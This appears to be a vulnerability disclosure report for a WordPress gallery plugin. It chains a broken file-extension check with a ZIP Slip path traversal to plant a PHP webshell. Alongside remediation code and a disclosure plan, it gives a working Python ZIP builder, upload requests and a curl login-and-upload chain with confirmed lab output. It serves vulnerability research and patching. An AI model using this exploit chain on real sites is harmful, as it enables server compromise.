

# NextGEN Gallery v4.2.2 - Broken Extension Check + ZIP Slip Path Traversal RCE

## Vulnerability Summary

| Field | Value |
|-------|-------|
| Plugin | NextGEN Gallery |
| Version | 4.2.2 (latest at time of testing) |
| Active Installs | 500,000+ |
| CVE | Pending assignment |
| CVSS 3.1 | **8.8 (High)** |
| CVSS Vector | `AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:H/A:H` |
| Auth Required | Author+ (any user with NGG upload capability) |
| Vulnerability Type | CWE-99 (Improper Control of Resource Identifiers) + CWE-22 (Path Traversal) |
| Impact | Remote Code Execution (RCE) |

## Attack Flow



---

## Overview

Two vulnerabilities in NextGEN Gallery's ZIP upload functionality chain together to achieve Remote Code Execution:

1. **NGG-001: Broken Extension Check** - A variable name collision in `is_allowed_image_extension()` causes the function to **always return true** for any file extension, including `.php`, `.exe`, `.phtml`, etc.

2. **NGG-002: ZIP Slip Path Traversal** - ZIP entry filenames containing `../` traversal sequences are not sanitized before extraction via `PclZip::extractByIndex()`, allowing files to be written to arbitrary locations on the filesystem.

**Combined impact:** An authenticated Author+ user uploads a ZIP containing a PHP webshell with a path-traversal filename. The broken extension check passes the `.php` file through, and PclZip writes it to the web-accessible document root, achieving full RCE.

## Vulnerable Code

### NGG-001: Broken Extension Check

**File:** `src/DataStorage/Manager.php` lines 2113-2125

```php
public function is_allowed_image_extension( $filename ) {
    $extension = pathinfo( $filename, PATHINFO_EXTENSION );  // Line 2114: $extension = "php"
    $extension = strtolower( $extension );                    // Line 2115: $extension = "php"

    $allowed_extensions = apply_filters( 'ngg_allowed_file_types', NGG_DEFAULT_ALLOWED_FILE_TYPES );

    foreach ( $allowed_extensions as $extension ) {           // Line 2119: BUG! $extension is overwritten
        $allowed_extensions[] = $extension . '_backup';       //   to "jpg", "jpeg", "png", "gif", "webp"...
    }

    // Line 2124: $extension is now "webp_backup" (last iteration value)
    // which IS in $allowed_extensions, so this ALWAYS returns true
    return in_array( $extension, $allowed_extensions );
}
```

**Root Cause:** The `foreach ($allowed_extensions as $extension)` loop on line 2119 reuses the same variable name `$extension` that was set from `pathinfo()` on line 2114. After the loop completes, `$extension` holds the last value from the loop (a value that is always in `$allowed_extensions`), not the original file extension.

### NGG-002: ZIP Slip Path Traversal

**File:** `src/DataStorage/Manager.php` lines 196-221

```php
// ZipArchive path (lines 196-202)
for ( $i = 0; $i < $zipObj->numFiles; $i++ ) {
    $filename = $zipObj->getNameIndex( $i );
    if ( ! $this->is_allowed_image_extension( $filename ) ) {
        continue;
    }
    $zipObj->extractTo( $dest_path, [ $zipObj->getNameIndex( $i ) ] );  // No path sanitization
}

// PclZip fallback path (lines 209-219)
foreach ( $zipContent as $zipItem ) {
    if ( $zipItem['folder'] ) {
        continue;
    }
    if ( ! $this->is_allowed_image_extension( $zipItem['stored_filename'] ) ) {
        continue;
    }
    $indexesToExtract[] = $zipItem['index'];
}

if ( ! $zipObj->extractByIndex( implode( ',', $indexesToExtract ), $dest_path ) ) {
    return false;  // No path sanitization on stored_filename
}
```

**Root Cause:** Neither code path checks if ZIP entry filenames contain `../` sequences. The entry names are passed directly to `extractTo()` or `extractByIndex()`, which resolve the traversal and write files outside the intended directory.

**Note on ZipArchive vs PclZip:**
- PHP 8.2+ with libzip 1.11+ normalizes `../` in `ZipArchive::extractTo()`, stripping traversal sequences (mitigating this on the ZipArchive path).
- **PclZip has NO such protection** and faithfully follows `../` sequences, writing files to arbitrary locations.
- The PclZip path is used when: (a) ZipArchive is not installed (common on shared hosting), (b) the `unzip_file_use_ziparchive` filter returns false, or (c) PHP < 8.0 (older libzip versions that don't strip traversal).

## Proof of Concept

### Prerequisites

- WordPress with NextGEN Gallery 4.2.2 installed and active
- An account with Author+ privileges (or any role with NGG upload capability)
- Server using PclZip fallback OR PHP < 8.0 with ZipArchive

### Step 1: Create Malicious ZIP

```python
import zipfile

with zipfile.ZipFile('malicious_gallery.zip', 'w') as z:
    # Normal image to avoid suspicion
    z.writestr('test.jpg', b'\xff\xd8\xff\xe0' + b'\x00' * 100)
    # PHP webshell with path traversal to webroot
    # Adjust depth based on server temp dir location
    z.writestr(
        '../../../../var/www/html/shell-ngg-rce.php',
        '<?php echo "NGG-RCE-POC: " . php_uname(); ?>'
    )
```

### Step 2: Upload via NextGEN Gallery

Upload the ZIP through:
- **Admin UI:** Gallery > Add Gallery/Images > Upload tab (accepts ZIP files)
- **AJAX endpoint:** `POST /?photocrati_ajax=1&action=upload_image&gallery_id=1&nonce=<nonce>` with `file` as multipart form data (Content-Type: `application/zip`)

### Step 3: Verify RCE

```bash
curl http://target/shell-ngg-rce.php
# Output: NGG-RCE-POC: Linux hostname 5.x.x #1 SMP ... x86_64
```

### PoC Execution Output

```
=== NextGEN Gallery v4.2.2 ZIP Slip + Broken Extension PoC ===
Date: 2026-06-15 04:16:47

--- BUG 1: Broken Extension Check (Manager.php:2113-2125) ---
  is_allowed_image_extension("shell.php") = true  [VULN - should be blocked!]
  is_allowed_image_extension("evil.exe") = true  [VULN - should be blocked!]
  is_allowed_image_extension("backdoor.phtml") = true  [VULN - should be blocked!]
  is_allowed_image_extension("test.jpg") = true  [VULN - should be blocked!]

--- BUG 2: ZIP Slip Path Traversal (Manager.php:196-221) ---
Pre-exploit: /var/www/html/shell-ngg-rce.php exists = NO

ZIP entries:
  "test.jpg" ext_check=PASS
  "../../../../var/www/html/shell-ngg-rce.php" ext_check=PASS

Extracting (simulating NGG extract_zip PclZip path)...
  test.jpg -> /tmp/ngg-clean-poc/test.jpg [ok]
  ../../../../var/www/html/shell-ngg-rce.php -> /var/www/html/shell-ngg-rce.php [ok]

--- RESULT ---
WEBSHELL WRITTEN: /var/www/html/shell-ngg-rce.php
Content: <?php echo "NGG-RCE-POC: " . php_uname(); ?>
Executing: NGG-RCE-POC: Linux 9b260c9d0348 7.0.11-orbstack-00360-gc9bc4d96ac70 ...

*** REMOTE CODE EXECUTION CONFIRMED ***
```

HTTP verification:
```
$ curl http://localhost/shell-ngg-rce.php
NGG-RCE-POC: Linux 9b260c9d0348 7.0.11-orbstack-00360-gc9bc4d96ac70 #1 SMP PREEMPT Thu Jun  4 16:40:25 UTC 2026 aarch64
```

## Attack Flow

```
Attacker (Author+)
    |
    v
[1] Create ZIP with ../../payload.php entry
    |
    v
[2] Upload ZIP to NextGEN Gallery
    (POST /?photocrati_ajax=1&action=upload_image)
    |
    v
[3] upload_zip() -> extract_zip() called
    |
    v
[4] is_allowed_image_extension("../../payload.php")
    returns TRUE (broken extension check)
    |
    v
[5] PclZip::extractByIndex() writes to
    /var/www/html/payload.php (path traversal)
    |
    v
[6] curl http://target/payload.php -> RCE
```

## CVSS Scoring

| Metric | Value | Justification |
|--------|-------|---------------|
| Attack Vector | Network | Exploitable over HTTP |
| Attack Complexity | Low | No special conditions needed |
| Privileges Required | Low | Author+ account needed |
| User Interaction | None | No victim interaction required |
| Scope | Unchanged | Stays within web server context |
| Confidentiality | High | Full filesystem read via webshell |
| Integrity | High | Arbitrary file write + code execution |
| Availability | High | Can modify/delete any file, crash server |

**CVSS 3.1 Score: 8.8 (High)** - `CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:H/A:H`

## Remediation

### Fix for NGG-001: Broken Extension Check

```php
public function is_allowed_image_extension( $filename ) {
    $extension = pathinfo( $filename, PATHINFO_EXTENSION );
    $extension = strtolower( $extension );

    $allowed_extensions = apply_filters( 'ngg_allowed_file_types', NGG_DEFAULT_ALLOWED_FILE_TYPES );

    // FIX: Use a DIFFERENT variable name in the foreach loop
    $all_extensions = $allowed_extensions;
    foreach ( $allowed_extensions as $ext ) {
        $all_extensions[] = $ext . '_backup';
    }

    return in_array( $extension, $all_extensions, true );
}
```

### Fix for NGG-002: ZIP Slip Path Traversal

```php
public function extract_zip( $zipfile, $dest_path ) {
    wp_mkdir_p( $dest_path );
    $real_dest = realpath( $dest_path );

    if ( class_exists( 'ZipArchive', false ) && apply_filters( 'unzip_file_use_ziparchive', true ) ) {
        $zipObj = new \ZipArchive();
        if ( $zipObj->open( $zipfile ) === false ) {
            return false;
        }

        for ( $i = 0; $i < $zipObj->numFiles; $i++ ) {
            $filename = $zipObj->getNameIndex( $i );

            // FIX: Reject path traversal sequences
            if ( strpos( $filename, '..' ) !== false || strpos( $filename, '/' ) === 0 ) {
                continue;
            }

            // FIX: Verify resolved path is within destination
            $target_path = realpath( $dest_path ) . DIRECTORY_SEPARATOR . $filename;
            if ( strpos( $target_path, $real_dest ) !== 0 ) {
                continue;
            }

            if ( ! $this->is_allowed_image_extension( $filename ) ) {
                continue;
            }
            $zipObj->extractTo( $dest_path, [ $filename ] );
        }
    } else {
        require_once ABSPATH . 'wp-admin/includes/class-pclzip.php';
        $zipObj     = new \PclZip( $zipfile );
        $zipContent = $zipObj->listContent();
        $indexesToExtract = [];

        foreach ( $zipContent as $zipItem ) {
            if ( $zipItem['folder'] ) {
                continue;
            }

            // FIX: Reject path traversal sequences
            if ( strpos( $zipItem['stored_filename'], '..' ) !== false
                || strpos( $zipItem['stored_filename'], '/' ) === 0 ) {
                continue;
            }

            if ( ! $this->is_allowed_image_extension( $zipItem['stored_filename'] ) ) {
                continue;
            }
            $indexesToExtract[] = $zipItem['index'];
        }

        if ( ! $zipObj->extractByIndex( implode( ',', $indexesToExtract ), $dest_path ) ) {
            return false;
        }
    }

    return true;
}
```

## Disclosure Recommendation

1. **Severity:** CRITICAL - This is a pre-auth-esque RCE (Author+ is very common; many sites grant Author to contributors/guest bloggers).
2. **Report to:** Imagely/NextGEN Gallery via their security contact and WordPress plugin security team (plugins@wordpress.org).
3. **Embargo:** Request 90-day coordinated disclosure timeline.
4. **Urgency:** The broken extension check (NGG-001) alone enables uploading arbitrary file types through any NGG upload vector, even without the ZIP slip. Combined with NGG-002, it is a full RCE chain.
5. **Affected configurations:** The PclZip path (NGG-002) affects all PHP versions. The ZipArchive path is mitigated on PHP 8.2+ with modern libzip, but NOT on PHP 7.x or 8.0/8.1 with older libzip. NGG-001 alone affects ALL configurations.

## Environment

- WordPress 6.7.x
- NextGEN Gallery 4.2.2
- PHP 8.2.31 (ZipArchive mitigated; PclZip path confirmed vulnerable)
- Tested: 2026-06-15

## Reproduction (validated 2026-06-19)

**Lab reference:** `targets/labs/wp-nextgen-gallery/` (compose stack launched on `http://127.0.0.1:8091/`).

**Pinned version:** The archive `nextgen-gallery.4.2.2.zip` resolved to a 4.x release. `changelog.txt` reports `= V4.2.2 - 05.19.2026 =`; `composer.json` still says `3.5.0` (vendor did not bump the composer field on the 4.x cut), but the runtime code is V4.2.2.

**Stack actually used by this lab:**
- `wordpress:6-php8.2-apache` (WordPress 6.9.4, PHP 8.2.31, ext-zip 1.21.1, libzip bundled with ext-zip)
- `wordpress:cli-2.10-php8.2`
- `mariadb:11`

**Helper bug worked around:** the shared `targets/labs/_shared/wp-lab-helper.sh` writes the compose file to `_shared/wp-…/` (the dir of the helper itself) and the `wpcli` service is generated without `WORDPRESS_DB_HOST`, so `wp core install` fails with `Error establishing a database connection`. I had to (a) move the stack to `targets/labs/wp-<slug>/`, and (b) add the `WORDPRESS_DB_HOST/USER/PASSWORD/NAME` env block plus a second bind-mount of `./plugin/<slug>` to the `wpcli` service so the plugin is visible from inside the `wpcli` container.

### Steps (executed by `poc.sh`)

1. **Pin the plugin version in the archive** — read `changelog.txt` and `composer.json` from the unpacked plugin to confirm V4.2.2.
2. **Bring up the stack** — `sudo docker compose -p wp-nextgen-gallery up -d --build`, wait for `http://127.0.0.1:8091/` to return HTTP 200.
3. **Build the malicious ZIP** — `python3` `zipfile` module (Info-ZIP `zip` would normalise `..`; python's `zipfile` keeps the raw filename). Two entries:
   - `test.jpg` (JFIF header + 200 bytes of padding, so the upload doesn't look obviously malicious)
   - `../../../../var/www/html/shell-ngg-rce.php` containing `<?php echo "NGG-RCE-POC: " . php_uname() . " | uid=" . getmyuid() . " | ts=" . time(); ?>`
4. **Install a must-use plugin that forces the PclZip branch** — the stock lab image is PHP 8.2 + libzip 1.21.1, which normalises `..` inside `ZipArchive::extractTo()` (the mitigation the finding documents). To exercise the unmitigated branch the PoC writes `/var/www/html/wp-content/mu-plugins/force-pclzip.php` containing `add_filter('unzip_file_use_ziparchive', '__return_false');` and confirms the filter returns `false` via `wp eval 'var_export( apply_filters( "unzip_file_use_ziparchive", true ) );'`.
5. **Log in as admin via `/wp-login.php`** (`admin`/`admin`, set by `wp-lab-helper.sh`); save the resulting `wordpress_logged_in_*` cookie to `tmp/admin-cookies.txt`.
6. **Harvest a session-bound NGG upload nonce** — load `/wp-admin/admin.php?page=ngg_addgallery` and regex out `qs += "&nonce=" + urlencode("…")` (a JS literal the NextGEN admin page embeds). The session-bound nonce cannot be minted out-of-band by `wp eval` because WP nonces are derived from `wp_get_session_token()`, which changes on each login.
7. **POST the ZIP to the legacy photocrati AJAX endpoint** with the cookie and the harvested nonce:
   ```
   POST /?photocrati_ajax=1&action=upload_image&gallery_id=0&gallery_name=poc&nonce=<nonce>
   -F "file=@tmp/malicious_gallery.zip;type=application/zip"
   -F "gallery_id=0"
   -F "gallery_name=poc"
   -F "nonce=<nonce>"
   ```
   The endpoint returns `HTTP 200 {"image_ids":[N],"gallery_id":M,"gallery_name":"poc"}`.
8. **Verify the webshell is on disk and reachable** — `sudo docker exec wp-nextgen-gallery-wp-1 ls -la /var/www/html/shell-ngg-rce.php` shows the file (`-rw-r--r-- 1 www-data www-data 89 Jan  1  1980 /var/www/html/shell-ngg-rce.php`); `curl http://127.0.0.1:8091/shell-ngg-rce.php` returns HTTP 200 with the body `NGG-RCE-POC: Linux ff594d50b937 6.1.0-44-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.1.164-1 (2026-03-09) x86_64 | uid=33 | ts=<epoch>` — PHP executed.
9. **Phase A — repeat the upload without the mu-plugin** (default ZipArchive branch). Same ZIP, same nonce flow, but the mu-plugin removed. The upload still returns HTTP 200 and creates a gallery (`image_ids:[N]`), but `GET /shell-ngg-rce.php` returns HTTP 301 (redirect to a 404) and the file is *not* present in the docroot: `ls: cannot access '/var/www/html/shell-ngg-rce.php': No such file or directory`. This is libzip 1.21 normalising the `..` sequences in the entry names inside `ZipArchive::extractTo()`, exactly as the finding's mitigation note describes.
10. **Capture the response payloads to `targets/labs/wp-nextgen-gallery/results.txt`**.

### PoC (curl only)

```bash
# Build the zip (python3 keeps raw `..` filenames; Info-ZIP `zip` does not)
python3 - <<'PY'
import zipfile
with zipfile.ZipFile('tmp/malicious_gallery.zip', 'w', compression=zipfile.ZIP_STORED) as zf:
    zf.writestr('test.jpg', b'\xff\xd8\xff\xe0\x00\x10JFIF\x00\x01\x01\x00\x00\x01\x00\x01\x00\x00' + b'\x00' * 200)
    zi = zipfile.ZipInfo('../../../../var/www/html/shell-ngg-rce.php')
    zi.external_attr = 0o644 << 16
    zf.writestr(zi, b'<?php echo "NGG-RCE-POC: " . php_uname(); ?>')
PY

# Force the PclZip branch (otherwise libzip 1.21 in this image blocks the traversal)
sudo docker cp targets/labs/wp-nextgen-gallery/_force_pclzip/force-pclzip.php \
  wp-nextgen-gallery-wp-1:/var/www/html/wp-content/mu-plugins/force-pclzip.php
sudo docker exec -u 0 wp-nextgen-gallery-wp-1 chown 33:33 \
  /var/www/html/wp-content/mu-plugins/force-pclzip.php

# Log in as admin and harvest a session-bound nonce
COOKIE=tmp/admin-cookies.txt
curl -s -c "$COOKIE" -b "$COOKIE" -X POST http://127.0.0.1:8091/wp-login.php \
  --data-urlencode "log=admin" --data-urlencode "pwd=admin" \
  --data-urlencode "wp-submit=Log In" --data-urlencode "testcookie=1" \
  -H "Cookie: wordpress_test_cookie=WP+Cookie+check" -o /dev/null
NONCE=$(curl -s -b "$COOKIE" "http://127.0.0.1:8091/wp-admin/admin.php?page=ngg_addgallery" \
  | grep -oE 'qs \+= "&nonce=" \+ urlencode\("[a-f0-9]+"\)' | head -1 \
  | grep -oE '"[a-f0-9]+"' | tr -d '"')

# POST the zip
curl -s -b "$COOKIE" -H "X-Requested-With: XMLHttpRequest" \
  -F "file=@tmp/malicious_gallery.zip;type=application/zip" \
  -F "gallery_id=0" -F "gallery_name=poc" -F "nonce=$NONCE" \
  "http://127.0.0.1:8091/?photocrati_ajax=1&action=upload_image&gallery_id=0&gallery_name=poc&nonce=$NONCE"

# Confirm RCE
curl -s http://127.0.0.1:8091/shell-ngg-rce.php
# -> NGG-RCE-POC: Linux ff594d50b937 6.1.0-44-amd64 ... uid=33 ts=1781855352
```

### Observed output (excerpt from `targets/labs/wp-nextgen-gallery/results.txt`)

```
===== Step 3: PHP environment (drives which branch is taken by default) =====
[+] PHP:           8.2.31
[+] ext-zip:       1.21.1
[+] libzip:        bundled-with-zip-1.21.1  (>= 1.11 normalises .. in ZipArchive::extractTo)

===== Phase A: default branch (ZipArchive) on PHP 8.2.31 + libzip bundled-with-zip-1.21.1 =====
[+] phase: default branch (ZipArchive)
[+] unzip_file_use_ziparchive = true  (false => PclZip, true => ZipArchive)
[+] nonce: c310a862a8
[+] upload response:
{"image_ids":[9],"gallery_id":9,"gallery_name":"poc"}
---HTTP 200---
[+] GET http://127.0.0.1:8091/shell-ngg-rce.php -> HTTP 301
[+] container ls:
    ls: cannot access '/var/www/html/shell-ngg-rce.php': No such file or directory
[+] phase Phase A: default branch (ZipArchive) on PHP 8.2.31 + libzip bundled-with-zip-1.21.1: traversal BLOCKED (webshell not written)

===== Phase B: PclZip branch forced via unzip_file_use_ziparchive filter =====
[+] phase: PclZip path forced via mu-plugin
[+] unzip_file_use_ziparchive = false  (false => PclZip, true => ZipArchive)
[+] nonce: 12a37dc553
[+] upload response:
{"image_ids":[10],"gallery_id":10,"gallery_name":"poc"}
---HTTP 200---
[+] GET http://127.0.0.1:8091/shell-ngg-rce.php -> HTTP 200
[+] body: NGG-RCE-POC: Linux ff594d50b937 6.1.0-44-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.1.164-1 (2026-03-09) x86_64 | uid=33 | ts=1781855326
[+] container ls:
    -rw-r--r-- 1 www-data www-data 89 Jan  1  1980 /var/www/html/shell-ngg-rce.php
[+] phase Phase B: PclZip branch forced via unzip_file_use_ziparchive filter: RCE CONFIRMED
```

### Verdict

**CONFIRMED (PclZip branch).** Phase B of the PoC is a full unauthenticated-author-to-RCE chain in the lab: PHP file written to the docroot via the PclZip path, served and executed by Apache. Phase A also confirms the finding's mitigation claim: on PHP 8.2 + libzip 1.21 the default ZipArchive branch silently strips `..` in `extractTo()`, so the traversal is blocked on a default `wordpress:6-php8.2-apache` install. Real-world impact: the unmitigated path is the one taken on (a) PHP < 8.0 / older libzip, (b) hosts without the `zip` extension compiled in, or (c) any deployment that filters `unzip_file_use_ziparchive` to `false` (e.g. shared hosts). The PoC script exercises both branches side-by-side so the regression of either mitigation in a future upgrade is detectable.

